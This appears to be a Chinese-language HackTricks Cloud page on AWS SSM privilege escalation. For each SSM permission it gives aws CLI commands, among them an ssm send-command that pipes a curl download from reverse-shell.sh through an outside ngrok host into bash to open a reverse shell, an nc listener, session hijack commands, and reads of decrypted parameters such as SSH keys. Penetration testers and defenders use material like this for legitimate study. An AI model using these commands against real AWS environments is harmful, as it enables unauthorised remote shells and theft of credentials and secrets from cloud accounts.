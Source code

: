 # AWS - SSM特权升级

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交PR来**分享您的黑客技巧**。

</details>

## SSM

有关SSM的更多信息，请查看：

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

拥有**`ssm:SendCommand`**权限的攻击者可以在运行Amazon SSM Agent的实例中**执行命令**，并**危害其中运行的IAM角色**。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在影响：**直接提升权限到运行SSM代理的EC2 IAM角色。

### `ssm:StartSession`

拥有**`ssm:StartSession`**权限的攻击者可以在运行Amazon SSM代理的实例上**启动类似SSH的会话**，并**入侵其中运行的IAM角色**。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
**潜在影响：**直接提升权限以访问运行中的具有运行SSM代理的EC2 IAM角色。

#### 提升权限至ECS

当**ECS任务**以启用了**`ExecuteCommand`**的方式运行时，具有足够权限的用户可以使用`ecs execute-command`在容器内执行命令。根据[**文档**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)，这是通过在发起“_exec_”命令的设备和具有SSM Session Manager的目标容器之间创建一个安全通道来实现的。因此，具有`ssm:StartSession`权限的用户可以通过运行以下命令在启用了该选项的ECS任务中获取一个shell：
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**潜在影响：**直接提升到具有启用`ExecuteCommand`的运行任务附加的`ECS`IAM角色。

### `ssm:ResumeSession`

拥有权限**`ssm:ResumeSession`**的攻击者可以在运行Amazon SSM Agent的实例中重新启动类似SSH的会话，并且可以**危及其中运行的IAM角色**。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在影响：**直接提升到具有运行SSM代理和断开会话的EC2 IAM角色。

### `ssm:DescribeParameters`，(`ssm:GetParameter` | `ssm:GetParameters`)

具有上述权限的攻击者将能够列出**SSM参数**并以明文形式**读取它们**。在这些参数中，您经常可以找到诸如SSH密钥或API密钥之类的敏感信息。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在影响：**查找参数中的敏感信息。

### `ssm:ListCommands`

拥有此权限的攻击者可以列出所有发送的**命令**，并希望在其中找到**敏感信息**。
```
aws ssm list-commands
```
**潜在影响：**在命令行中找到敏感信息。

### `ssm:GetCommandInvocation`，(`ssm:ListCommandInvocations` | `ssm:ListCommands`)

具有这些权限的攻击者可以列出所有发送的**命令**并**读取生成的输出**，希望在其中找到**敏感信息**。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在影响：**在命令行输出中找到敏感信息。

### Codebuild

您还可以使用SSM进入正在构建的codebuild项目：

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF格式的HackTricks，请查看[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS Family**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的动态 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>
